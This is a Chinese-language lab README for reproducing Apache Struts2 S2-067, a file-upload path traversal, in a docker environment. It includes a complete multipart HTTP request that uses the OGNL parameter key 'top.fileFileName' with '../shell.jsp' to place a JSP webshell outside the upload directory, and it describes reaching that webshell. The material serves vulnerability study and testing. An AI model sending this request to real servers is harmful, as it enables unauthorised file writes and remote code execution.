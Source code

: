# Struts2 S2-067 路径穿越漏洞（CVE-2023-50165）

Apache Struts2 是一个流行的开源 Web 应用框架，用于开发 Java EE Web 应用。它使用并扩展了 Java Servlet API，鼓励开发者采用模型-视图-控制器（MVC）架构。该框架为开发者提供了丰富的标签和实用工具，以创建易于维护和扩展的企业级 Web 应用。

S2-067 是 S2-066 漏洞的变种，产生于对 S2-066 的不完全修复。S2-066 是由于大小写敏感性比较问题导致文件名被覆盖而造成目录穿越，而 S2-067 则利用了另一种机制达到相同的目的。

在 Struts2 中，所有参数在传递时，参数的键名都会进行 OGNL 表达式的计算。这个特性历史上曾导致多次通过 OGNL 表达式注入实现远程命令执行的漏洞。虽然 Struts2 已经实现了严格的参数键名验证来防止 RCE 漏洞，但表达式计算仍然会发生。S2-067 就是利用这个表达式计算机制，再次覆盖上传文件时的文件名，最终导致目录穿越问题。

参考链接：

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## 环境搭建

执行以下命令启动一个用 Struts2 2.5.33 编写的 Web 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到应用页面，这是一个简单的文件上传页面。

## 漏洞复现

在复现 S2-067 漏洞之前，需要先阅读 [S2-066](../s2-066/README.md) 并理解漏洞的原理。

在这个环境中，我们已经不能使用与 S2-066 相同的 payload，因为大小写敏感性问题已被修复：

![](1.png)

将 OGNL 表达式 `top.fileFileName` 作为文件名参数键名的一部分，文件将再次被上传到受限上传目录之外：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

注意利用过程中的关键要素：

- 不同于 S2-066 利用大小写敏感性，这里使用了参数键名中的 OGNL 表达式计算
- 参数键名 `top.fileFileName` 会被作为 OGNL 表达式进行计算
- 这个计算允许我们使用路径穿越 payload `../shell.jsp` 覆盖文件名

![成功上传](2.png)

JSP 文件现在被上传到了受限上传目录之外，并且可以被执行：

![Webshell 执行](3.png)

现在你可以通过访问 `http://your-ip:8080/shell.jsp` 来访问 webshell。
